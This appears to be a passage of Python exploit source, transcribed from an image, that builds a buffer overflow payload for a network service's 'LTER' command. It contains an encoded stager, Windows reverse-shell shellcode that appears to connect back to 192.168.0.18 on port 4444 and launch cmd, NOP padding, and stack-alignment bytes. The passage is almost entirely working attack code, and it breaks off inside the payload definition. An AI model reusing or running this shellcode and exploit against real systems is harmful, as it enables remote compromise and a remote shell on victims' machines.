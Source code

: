 ``` python
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'

SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# Create STAGE2 with the shellcode and pad the rest of the
# 1024 buffer with NOPs
STAGE2 = SHELL + b'\x90' * (1024 - len(SHELL))

PAYLOAD = (
    b'LTER .' +
    b'A' * 16 +
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x2d\x01\x0b' +   # SUB AX,0x0b01
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    STAGER +
    b'A' * (3554 - 4 - 79 - 16 - 8 - len(STAGER)) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
```